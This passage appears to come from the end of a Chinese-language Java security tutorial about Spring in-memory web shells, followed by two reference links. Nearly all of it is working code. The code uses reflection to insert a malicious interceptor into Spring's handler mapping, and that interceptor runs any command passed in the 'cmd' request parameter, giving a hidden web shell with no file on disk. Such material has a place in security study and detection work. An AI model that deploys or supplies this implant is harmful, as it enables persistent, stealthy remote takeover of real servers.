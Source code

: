 ```plain
        org.springframework.web.servlet.handler.AbstractHandlerMapping abstractHandlerMapping = (org.springframework.web.servlet.handler.AbstractHandlerMapping)context.getBean(RequestMappingHandlerMapping.class);
        java.lang.reflect.Field field = org.springframework.web.servlet.handler.AbstractHandlerMapping.class.getDeclaredField("adaptedInterceptors");
        field.setAccessible(true);
        java.util.ArrayList<Object> adaptedInterceptors = (java.util.ArrayList<Object>)field.get(abstractHandlerMapping);


        //将恶意Interceptor添加入adaptedInterceptors
        Shell_Interceptor shell_interceptor = new Shell_Interceptor();
        adaptedInterceptors.add(shell_interceptor);
    }

    public class Shell_Interceptor implements HandlerInterceptor{
        @Override
        public boolean preHandle(HttpServletRequest request, HttpServletResponse response, Object handler) throws Exception {
            String cmd = request.getParameter("cmd");
            if (cmd != null) {
                try {
                    Runtime.getRuntime().exec(cmd);
                } catch (IOException e) {
                    e.printStackTrace();
                } catch (NullPointerException n) {
                    n.printStackTrace();
                }
                return true;
            }
            return false;
        }
    }
}
```



# 参考
[https://github.com/dota-st/JavaSec/blob/master/05-%E5%86%85%E5%AD%98%E9%A9%AC%E4%B8%93%E5%8C%BA/5-Spring%E5%86%85%E5%AD%98%E9%A9%AC%E4%B9%8BInterceptor/Interceptor%E5%86%85%E5%AD%98%E9%A9%AC.md](https://github.com/dota-st/JavaSec/blob/master/05-%E5%86%85%E5%AD%98%E9%A9%AC%E4%B8%93%E5%8C%BA/5-Spring%E5%86%85%E5%AD%98%E9%A9%AC%E4%B9%8BInterceptor/Interceptor%E5%86%85%E5%AD%98%E9%A9%AC.md)

[https://goodapple.top/archives/1355](https://goodapple.top/archives/1355)

